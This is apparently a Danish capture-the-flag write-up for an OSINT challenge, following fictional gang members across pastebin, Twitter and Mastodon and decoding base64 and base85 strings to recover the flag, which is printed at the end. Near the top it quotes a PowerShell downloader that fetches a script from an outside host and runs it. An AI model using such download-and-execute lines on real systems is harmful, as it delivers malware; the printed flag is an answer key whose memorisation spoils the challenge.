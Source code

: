 # Writeup

Vi har brug for at finde info om `N1ss3b4nd3n` og dens medlemmer, og her er det naturligt at se, om noget kan fremfindes offentligt på nettet.

Opgaven forudsætter, man har løst [Nisseware: Loading](../nisseware-loading/) eller som minimum fundet frem til et af deres payloads hosted på pastebin.
Det nyeste af disse er https://pastebin.com/raw/GdyerNX8, hvor følgende script er hosted:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Som nævnt i writeup for `Nisseware: Loading`, kan vi fjerne `/raw` fra URLen, for at se scriptet direkte på pastebin siden: https://pastebin.com/GdyerNX8.

![N1ss3b4nd3ns pastebin](img/pastebin.png)

Payloadet står som unlisted og er oprettet af brugeren `N1ss3b4nd3n` - vi kan klikke på brugernavnet og se, hvad de ellers har af bins: https://pastebin.com/u/N1ss3b4nd3n.

Her ligger kun en enkelt public bin: https://pastebin.com/hQcmjWHL, som dog virker yderst relevant:

```
Medlemsliste:
HEMMELIGT (chefen)
Lun73
G3mys3
HrM0rt3ns3n
Sk1pp3r
P1l
```

Vi har nu en liste af i hvert fald fem potentielle medlemmer af `N1ss3b4nd3n`, og her bør man jo lede efter spor på dem alle.
Dog er `P1l` meget kort og ikke særlig unikt og vil højest sandsynligt kun være falske positiver - samme gælder egentlig `Lun73`, de havde begge været lidt tarvelige at lægge relevant info på, men er selvfølgelig værd at undersøge, især hvis man ikke finder noget på de resterende. De mest unikke er umiddelbart `HrM0rt3ns3n` og `G3mys3`, så de er værd at starte med.

Der findes mange tilgængelig OSINT lookup tools, bl.a. command line værktøjet [sherlock](https://github.com/sherlock-project/sherlock), der virker *okay*, men tit har mange falske positiver og mangler. Især kan det være svært med sider, der kræver profil for overhovedet at lave opslag. Servicen [WhatsMyName](https://whatsmyname.app/) kan anbefales i stedet, her kan vi starte med at indsætte de to mest unikke usernames (med en newline efter det sidste!) og lave en søgning:

![WhatsMyName search result](img/whatsmyname.png)

På de to navne findes kun ét resultat på `Twitter`/`X`, der dog virker relevant med så unikt et username: https://twitter.com/HrM0rt3ns3n

![HrM0rt3ns3ns Twitter](img/twitter-profile.png)

Bingo! Helt klart relevant og vejen frem! `Hr. M0rt3ns3n` har syv posts i alt, hvoraf fire bare er reposts af memes o.l. (den første dog lidt relevant, en nyhed med password leak, et lille nudge til senere i `Nisseware: Infrastructure`). Hans nyeste personlige post er lidt et nudge til hans indblanding i `N1ss3b4nd3n` og shady forretninger:

![HrM0rt3ns3ns sidste post](img/twitter-last-post.png)

De foregående er dog noget mere relevante:

![HrM0rt3ns3ns første posts](img/twitter-first-post.png)

Her virker det til, han er rykket til Mastodon som mange andre, og han har postet et base64 encoded link:

```
aHR0cHM6Ly9tYXN0b2Rvbi5zb2NpYWwvQE0wcnQzbnMzbg==
= https://mastodon.social/@M0rt3ns3n
```

Han har altså brugt et lidt andet username på Mastodon, og derfor fandt vi det ikke med en search før. Smider man `M0rt3ns3n` i `WhatsMyName` finder den også Mastodon profilen (samt en række urelaterede falske positiver). Vi klikker os videre til https://mastodon.social/@M0rt3ns3n:

![M0rt3ns3ns Mastodon](img/mastodon-mortensen.png)

Her ser vi en række mere eller mindre relevante posts:

![M0rt3ns3ns 1. post](img/mastodon-1.png)

![M0rt3ns3ns 2. post](img/mastodon-2.png)

![M0rt3ns3ns 3. post](img/mastodon-3.png)

![M0rt3ns3ns 4. post](img/mastodon-4.png)

Første post peger på, at der måske er en anden relevant user, han her bare kalder `julle`.
Mon ikke, det er den user, vi ser i 2. post, som da også er den enste, han følger: `n1ss3far`.
Det post kobler også helt tydeligt `HrM0rt3ns3n` til `N1ss3b4nd3n` med hans egne ord.
Det 4. post tyder også på hans indblanding i angrebene mod legetøjsvirksomheder.

Sidst har vi i 3. post en bid encoded tekst, `:.$gaAh\%;0R$k_BJT`, og han nævner, det er encoded med en mere kompakt metode end default.
Med default refererer han nok til `base64`, hvor en anden mere kompakt og stadig velkendt og anvendt metode er `base85`.
Decoder vi med `base85` med fx [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base85('!-u',true,'z')&input=Oi4kZ2FBaFwlOzBSJGtfQkpU), får vi første halvdel af flaget: `NC3{f0ll0w_7h3`.

Så langt så godt! Men vi har nu identificeret endnu en bruger på Mastodon, `n1ss3f4r`, og fortsætter over på hans profil: https://mastodon.social/@n1ss3f4r

![N1ss3f4rs Mastodon](img/mastodon-nissefar.png)

Vi kigger ligeså hans posts igennem:

![Nissefars 1. post](img/mastodon-5.png)

![Nissefars 2. post](img/mastodon-6.png)

![Nissefars 3. post](img/mastodon-7.png)

Det peger ret eksplicit på, at han har droppet `mastodon.social` og er hoppet på `infosec.exchange`, hvor han er nem at finde på samme username: https://infosec.exchange/@n1ss3f4r

![Nissefars infosec.exchange](img/infosec-profil.png)

Her har han en række posts, hvoraf nogle er lidt interessante:

![Nissefars 1. post](img/infosec-1.png)

Filkryptering, videresalg af data, kryptovaluta, de har helt sikkert gang i ransomware.
Næste opslag ligner noget, vi har set før, mon ikke den "bekendte" er `HrM0rt3ns3n`:

![Nissefars 2. post](img/infosec-2.png)

Vi decoder igen med base85 og får 2. halvdel af flaget:

```
?[$0<F>I9J1h'oKFF=  ->  _wh1t3_w4bb1t}
```

Samler vi delene, har vi nu hele flaget: `NC3{f0ll0w_7h3_wh1t3_w4bb1t}`.
Så langt så godt! Vi ser lige de sidste posts igennem også:

![Nissefars 3. post](img/infosec-3.png)

Det første post hinter igen mod encryption og måske derfor ransomware - kan være, det er et godt tip at holde in mente, at han er lidt forvirret over block cipher modes!

Det næste er igen med til at bestyrke vores antagelse om, at `n1ss3f4r` er en væsentlig del af `N1ss3b4nd3n`, måske endda deres hemmelige leder, det virker nærliggende.

Sidst er der et post, der peger på, at `n1ss3f4r` måske har profiler på flere sider, og sandsynligvis nogle lidt ældre end Mastodon o.l.

Efterforskningen fortsætter i [Nisseware: Infrastructure](../nisseware-infrastructure/)!

**Flag**

`NC3{f0ll0w_7h3_wh1t3_w4bb1t}`
